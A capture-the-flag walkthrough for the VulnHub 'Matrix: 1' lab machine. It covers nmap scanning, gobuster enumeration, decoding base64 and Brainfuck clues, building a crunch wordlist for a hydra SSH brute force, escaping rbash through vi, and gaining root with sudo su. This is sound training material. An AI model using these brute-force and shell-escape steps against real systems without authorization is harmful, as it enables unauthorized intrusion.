::::::::::::::::::::::::::::: page
# Matrix: 1 {#matrix-1 .title}

\

## 

## Matrix: 1

- **[Matrix: 1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/matrix-1,259/>



- Now unzip the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.169
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.169
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.169
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.169
:::

1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://192.168.2.169/>

<!-- -->

- Directory brute force to find the endpoints :

::: codebox
    gobuster dir -u http://192.168.2.169/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
:::



- Visit the endpoints : <http://192.168.2.169/assets/>

<!-- -->

- IP visit in port 31337 : <http://192.168.2.169:31337/>

<!-- -->

- View the source code :

::: codebox
    view-source:http://192.168.2.169:31337/
:::



- Found the encoded value :

::: codebox
    ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=
:::

- Decode the value in base64 :

::: codebox
    echo "ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=" | base64 -d
:::



- When you go the URL and visit the file :
  <http://192.168.2.169:31337/Cypher.matrix>

<!-- -->

- It automatically downloads a file which contains the next cypher :

 I found that this is code for Brainfuck .

- Decode the value from brainfuck :
  <https://www.dcode.fr/brainfuck-language>



- Found the decode value :

::: codebox
    You can enter into matrix as guest, with password k1ll0rXX
    Note : Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
:::

- Clue found :

::: codebox
    Username : guest
    But unfortunately, the password ( k1ll0rXX ) is incomplete.
:::

1.  [SSH Access]{style="color:#f6d32d;"} :

- As the last 2 characters are missing we create a wordlist using crunch
  so that we can brute force SSH login .

<!-- -->

- Make a wordlist :

::: codebox
    crunch 8 8 -t k1ll0r%@ -o wordlist.txt
:::



- SSH Brute force :

::: codebox
    hydra -l guest -P wordlist.txt ssh://192.168.2.169
:::



- Found Username and Password :

::: codebox
    Username : guest
    Password : k1ll0r7n
:::

- SSH Login :

::: codebox
    ssh guest@192.168.2.169
:::

 We login with the correct password .

- Restricted shell :

<!-- -->

- Unfortunately, we have a restricted shell, so the next step is to
  escape it .
- Escaping rbash Using Vi :

::: codebox
    vi -c ':!/bin/bash'
:::

- 

::: codebox
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
:::

- 

::: codebox
    echo $0
:::



- Add standard binary directories to the PATH variable :

::: codebox
    export PATH=/bin:/usr/bin:$PATH
:::

- Change the SHELL environment variable to Bash :

::: codebox
    export SHELL=/bin/bash
:::

- Verify the shell :

::: codebox
    echo $SHELL
:::



1.  [Privilege Escalation]{style="color:#f6d32d;"} :

- Enumerated sudo permissions :

::: codebox
    sudo -l
:::



- Switched to root user :

::: codebox
    sudo su
:::

- System requested the user\'s password.



- After authentication :

::: codebox
    id
:::



- Listing root home directory :

::: codebox
    ls
:::



- Read the final flag :

::: codebox
    cat flag.txt
:::


:::::::::::::::::::::::::::::
